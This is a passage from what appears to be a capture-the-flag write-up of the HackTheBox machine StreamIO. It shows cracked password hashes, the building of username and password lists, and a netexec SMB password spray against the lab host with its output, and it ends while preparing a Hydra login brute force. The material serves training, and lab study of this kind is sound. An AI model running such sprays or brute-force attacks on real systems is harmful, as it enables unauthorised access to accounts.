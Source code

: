 ```
b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```

Out of all the hashes, I was able to crack the hashes in the above list.

###### `Trying the above creds on SMB using netexec`

So i have two separate files that I prepared. One contain `username:hashes`  and another one contains `hashes:cracked_password` we will prepare username and password file from this.
```
# more user_hashes userpass 
::::::::::::::
user_hashes
::::::::::::::
aaaa :74b87337454200d4d33f80c4663dc5e5
admin :665a50ac9eaa781e4f7f04199db97a11
<<SNIPPED FOR BREVITY>>
::::::::::::::
userpass
::::::::::::::
74b87337454200d4d33f80c4663dc5e5:aaaa
665a50ac9eaa781e4f7f04199db97a11:paddpadd
<<SNIPPED FOR BREVITY>>

# cat user_hashes | cut -d: -f1 > username
# cat username 
aaaa 
admin 
Alexendra 
<<SNIPPED>

# cat userpass | cut -d: -f2 > password
# cat password                         
aaaa
paddpadd
asdf
<SNIPPED>
```

`Using Username and Password list to try on smb for each user with each password`
```
# netexec smb 10.10.11.158 -u username -p password --continue-on-success
SMB         10.10.11.158    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [-] streamIO.htb\aaaa:aaaa STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:aaaa STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Alexendra:aaaa STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\asdf:aaaa STATUS_LOGON_FAILURE 
```
If you use `--no-bruteforce` in the above command than make sure the file entries in the username and password file are exactly the same. 
###### `Hydra to try credentals in web login form`
After having the credentials from the database, We would need to figure out the correct credentials that would work on the `http://streamio.htb/login` page. We will use `Hydra` to figure it out. But First we will prepare the username and password list. Let's first prepare files
```
# cat user_pass                           
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
```